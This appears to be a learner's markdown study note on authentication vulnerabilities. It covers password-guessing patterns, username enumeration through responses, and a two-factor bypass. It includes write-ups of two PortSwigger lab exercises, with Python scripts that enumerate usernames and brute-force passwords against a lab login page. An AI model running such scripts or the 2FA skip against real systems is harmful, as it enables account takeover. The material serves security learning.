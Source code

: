 # Authentication Vulnerabilities

Authentication vulnerabilities can allow attackers to gain access to sensitive data and functionality, this is why it is important to understand where authentication is used as they present an increasingly large attack surface for distributed systems.

## The difference between Authentication and Authorization

Authentication is determining that someone trying to access a system with a specific username (or any different kind of identifier) is the same person who created the account (or is the one who owns the account). When this account is authenticated, the user is authorised to take specific actions or allowed access to data based on the permissions given to this account.

## Brute-forcing

Brute-forcing is a common way of bypassing authentication checks. By finding pubicly available information it is possible to make even better guesses when conducting such an attack.

Finding username is a good first approach to limit the possibilities. Often business logins follow some pattern in e-mail addresses for example. The same applies for highly privileged accounts like `admin/administrator`.

When it comes to passwords, looking at human behavior is a great way to create even better educated guessess for bruteforcing. Users often try to make their passwords memorable instead of choosing a truly random password. This means that the password are constructed in a way which conforms to password policy with predictable patterns like: `Mypassword1!` if the policy requires:

- Atleast one Upper case letter
- Atleast one numeric character
- Atleast one special character

Furhtermore if the password policy requires users to freqeuntly change their password, the passwords often change in a predictable manner:

- First month: `Mypassword1!`
- Second month: `Mypassword2!`

### Enumeration

When brute-forcing it is preferable to have a list of valid usernames for the system the attacker is trying to break in to. Username enumeration is a practice where the attacker is able to observe some change in a systems behavior to identify if the username used, is valid.

**Status codes**: When trying to brute-force a system, such as a website the returned HTTP status codes might change depending on the username being correct. Most guesses will be wrong and thus have the same status code, which is why a different status code can be a strong indication that the username was correct.

**Error messages**: When logging in to a system and the username or password is incorrect it is often seen that an error message is displayed. Sometimes this message changes depending on the username or password being incorrect. Even just a small typing mistake can be an indicator that the username was correct.

**Response times**: Most of the request during a brute-force attack will be handled with a similar response time where the username and password is incorrect. An application will check if a user exists before checking the password which means that the computing time increases if the username is correct, thus the response will take longer, indicating a correct username.

## Lab: Username enumeration via different responses

**Lab Description**: This lab is vulnerable to username enumeration and password brute-force attacks. It has an account with a predictable username and password, which can be found in the following wordlists:

- Candidate Username (In this directory, usernames.txt)
- Candidate Passwords (In this directory, passwords.txt)

To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page.

### Lab solution

To determine which username is a valid user, the usernames list is used together with a simple (and messy) python script. The script uses python requests to send each username to the server on `/login`.
The server accepts the username and password as formdata, thus the weird formatting in the payload:

``` python
correct_usernames = []
session = requests.Session()
with open("./usernames.txt", "r") as usernames:
    for username in usernames:
        print(username, end="")
        payload = {
            'username': (None, username.strip()),
            'password': (None,"hej")
        }
        r = session.post("https://0ac6008604562a7c87cdcf2500410055.web-security-academy.net/login", payload)
        soup = BeautifulSoup(r.text, features="lxml")
        response_check = soup.find("p", {"class": "is-warning"})
        if(response_check.get_text() == "Incorrect password"):
            correct_usernames.append(username.strip())
print("\nCorrect Username: ", correct_usernames)

```

The approach taken in the script is valid, since the website changes the contents of the HTML if the username exists in the database. The HTML looks as follows:

``` HTML
<p class="is-warning">Invalid username</p>
<form class="login-form" method="POST" action="/login">
    <label>Username</label>
    <input required="" type="username" name="username" autofocus="">
    <label>Password</label>
    <input required="" type="password" name="password">
    <button class="button" type="submit"> Log in </button>
</form>
```

Where the `is-warning` class is used to render the response from the server. If the username exists the tag will contain `Incorrect password`.

When the username has been determined, the next part of the script uses the password list to brute-force the correct one.

``` python
correct_passwords = []
with open("./passwords.txt", "r") as passwords:
    for password in passwords:
        print(password, end="")
        payload = {
            'username': (None, correct_usernames[0]),#correct_usernames[0]),
            'password': (None, password.strip())
        }
        r = session.post("https://0ac6008604562a7c87cdcf2500410055.web-security-academy.net/login", payload)
        soup = BeautifulSoup(r.text, features="lxml")
        response_check = soup.find("p", {"class": "is-warning"})
        if not(response_check):
            correct_passwords.append(password.strip())

print("\n Correct passwords", correct_passwords)
```

Here it is assumed that the `is-warning` class will not be rendered upon a succesfull login. Using the script will output first the correct username and password. Each time the lab is spawned it will pick a random combination, however the combination i got was:

- Username: `apps`
- Password: `monitor`

Logging in with these credentials solves the lab.

## Bypassing Two-factor Authentication

Sometimes, when a site uses two-factor authentication and the authentication step introduces a second (or separate) page for the verification, the system already considers the user to be in a "Logged-in" state. This means that the verification step can be skipped.

## Lab: 2FA simple bypass

**Lab Description**:  This lab's two-factor authentication can be bypassed. You have already obtained a valid username and password, but do not have access to the user's 2FA verification code. To solve the lab, access Carlos's account page.

- Your credentials:`wiener:peter`
- Victim's credentials: `carlos:montoya`

### Lab solution

This lab is quite simple. Provided with two accounts and an email client, when trying to login with `wiener:peter`, the website prompts for a four digit verification code. Going to the email client to retrieve the code and submitting it, makes the site continue to the `my account` page. From the url it is seen that the account id's are the usernames: `https://0af4003c04e7fe10818876f700cd00d7.web-security-academy.net/my-account?id=wiener`.

With this knowledge, attempting to login to with `carlos:montoya` is effective and bypassing the 2FA is possible by going to `/my-account?id=carlos` after the first login step (When at the 2FA page). This solves the lab.
